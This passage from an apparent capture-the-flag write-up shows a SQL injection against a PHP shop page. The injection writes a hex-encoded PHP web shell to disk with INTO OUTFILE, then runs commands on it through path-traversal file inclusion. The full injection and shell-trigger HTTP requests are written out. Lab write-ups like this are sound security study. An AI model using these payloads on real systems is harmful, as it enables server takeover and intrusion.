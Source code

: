 We could exploit inlcude to include a php file. Let's try to exploit `SQL injection` to crate a file first.

IN mysql there are some funcitons to save queries to files. We can use `select ... into outfile ''` or `select ... into dumpfile ''`. From the sql injection page: if the query is succesfully executed we get a `302` page otherwise `500` is returned.

Trying the following request:

```
POST /shop/index.php?page=cart HTTP/1.1
Host: 10.10.11.229
Content-Length: 170
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.229
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.229/shop/index.php?page=product&id=2
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=r3hu0209v6difsj74b5lrcujg7
Connection: close

quantity=1&product_id=%0D%0A'+union+select+1,2,3,4,5,6,7,unhex('3C3F7068702073797374656D28245F4745545B22636D64225D293B203F3E')+into+outfile+'/tmp/test.php'--+1
```

Leads to a 302 response. So it worked! The file has been created. But you should notice that using dumpfile in mysql, is not enabled by default, so this part is a little bit guessy in my opinion. Which is `unhexed` is a simple php shell `<?php system($_GET['cmd']); ?>`. 

Now we can excute the coe through the `lfi`

```
GET /shop/index.php?cmd=whoami&page=../../../../../../../tmp/test HTTP/1.1
Host: 10.10.11.229
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close


```

For some reason we get the index page instead of our writed php file.
I lost some time here to understand, but the reason is simple. `mysql` is exeuted with privileges different from `www-data` or `rektsu`. So even if we can read or write a directory through sql injection this do not mean that we can read the created file from php applicaiton. I tried also to save the file in `/var/www/html/uplaods/UPLOADHASH` or  `/var/www/html/uplaods/` but when running the sql injection i got 500 internal server error. After some time, I found a path that we can read/write from the 2 different users. The directory writeable is the default `mysql` directory. We can understan where to find it since in response headers we have operating system used from the server, which is ubuntu.

